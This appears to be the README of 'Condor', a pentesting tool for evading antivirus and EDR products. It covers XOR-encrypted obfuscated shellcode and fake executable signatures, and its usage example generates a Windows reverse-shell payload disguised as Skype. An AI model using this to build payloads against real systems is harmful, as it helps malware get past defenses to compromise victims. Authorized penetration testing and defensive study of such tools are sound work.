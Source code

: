 <h1 align="center">「🛡️」About Condor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Condor is a tool created to help pentesters bypass protections such as AVs/EDRs/XDRs in operating systems. Condor was developed in Python and has several advantages to help pentesters.</p>

## Executable Scan

![](assets/scan.png)

## Benefits

* Easy to use
* Bypass most AVs/EDRs/XDRs
* Two XOR encryption process and an obfuscation
* The generated file is less than 7mb
* Using custom shellcode
* Fake signature on executable

## Environment support

| OS/Subsystem | | Installation of All Requirements | Compilation | EXE Execution |
| ----------- | ----------- | ----------- | ----------- | ----------- |
| Windows | ❌ | ✅ | ✅ | ✅ |
| Linux | ✅ | ❌ | ❌ | ❌ |
| Mac | not tested | not tested | not tested | not tested |
| WSL | ✅ | ✅ | ✅ | ✅ |

## Help

![](assets/help.png)


## Usage

It is recommended to run the tool in a WSL environment, as you will need to generate shellcodes using msfvenom and compile to EXE using pyinstaller.

```
$ git clone https://github.com/MrEmpy/Condor.git
$ cd Condor
$ chmod +x install.sh
$ sudo ./install.sh
...
$ python3 condor.py -p windows/x64/shell/reverse_tcp -lh <LOCAL HOST> -lp <LOCAL PORT> -i skype
```
